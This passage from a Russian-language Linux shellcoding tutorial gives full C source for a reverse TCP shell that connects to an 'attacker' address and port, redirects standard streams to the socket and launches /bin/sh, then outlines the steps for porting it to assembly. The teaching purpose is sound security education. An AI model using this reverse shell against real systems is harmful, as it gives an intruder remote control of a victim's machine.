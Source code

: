 Мы возьмем C-код, который запускает обратный TCP shell, из одного из моих [предыдущих](https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html) постов.          
Вот наш базовый код (`shell.c`):
```cpp
/*
shell.c - обратный TCP shell
author: @cocomelonc
demo shell для примера shellcoding в Linux
*/
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

  // IP-адрес атакующего
  const char* ip = "127.0.0.1";

  // структура адреса
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(4444);
  inet_aton(ip, &addr.sin_addr);

  // системный вызов socket
  int sockfd = socket(AF_INET, SOCK_STREAM, 0);

  // системный вызов connect
  connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

  for (int i = 0; i < 3; i++) {
    // dup2(sockfd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
  }

  // системный вызов execve
  execve("/bin/sh", NULL, NULL);

  return 0;
}
```

### подготовка на ассемблере

Как показано в исходном коде на C, необходимо перевести следующие вызовы в язык ассемблера:           
 - создать сокет.             
 - подключиться к указанному IP и порту.          
 - перенаправить stdin, stdout, stderr с помощью `dup2`.      
 - запустить оболочку с `execve`.           
